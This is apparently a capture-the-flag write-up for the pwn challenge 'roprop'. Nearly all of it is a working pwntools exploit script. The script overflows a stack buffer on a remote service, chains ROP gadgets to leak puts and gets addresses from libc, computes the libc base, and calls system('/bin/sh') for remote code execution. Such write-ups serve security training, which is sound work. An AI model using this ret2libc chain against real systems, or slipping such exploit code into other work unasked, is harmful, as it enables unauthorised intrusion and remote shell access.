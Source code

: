 # Pwn

## roprop

> This is from the back Solar Designer times where you require rope to climb and get anything you want.
 nc pwn.darkarmy.xyz 5002

This is the exploit i used to get RCE.

```
from pwn import *

context.log_level = 'DEBUG'
context.update(arch="amd64", os="linux")

elf =  ELF("./roprop")

sh = remote("pwn.darkarmy.xyz", 5002)

payload =  b"A"*88
payload += p64(0x0000000000400963) # pop rdi ; ret
payload += p64(elf.got["puts"])
payload += p64(elf.sym["puts"])
payload += p64(0x0000000000400963) # pop rdi ; ret
payload += p64(elf.got["gets"])
payload += p64(elf.sym["puts"])
payload += p64(0x00000000004008b2) # main

for i in range(0,4):
    sh.recvline()

sh.sendline(payload)

puts_leak = u64(sh.recvuntil('\n', drop=True).ljust(8, b'\x00'))
gets_leak = u64(sh.recvuntil('\n', drop=True).ljust(8, b'\x00'))
libc_leak = puts_leak - 0x080a30

log.success(f"Leaked puts@libc: {hex(puts_leak)}")
log.success(f"Leaked gets@libc: {hex(gets_leak)}")
log.success(f"Leaked libc base: {hex(libc_leak)}")

for i in range(0,4):
    sh.recvline()

payload =  b"A"*88
payload += p64(0x0000000000400963)   # pop rdi ; ret
payload += p64(libc_leak + 0x1b40fa) # /bin/sh
payload += p64(libc_leak + 0x04f4e0) # system

sh.sendline(payload)

sh.interactive()
```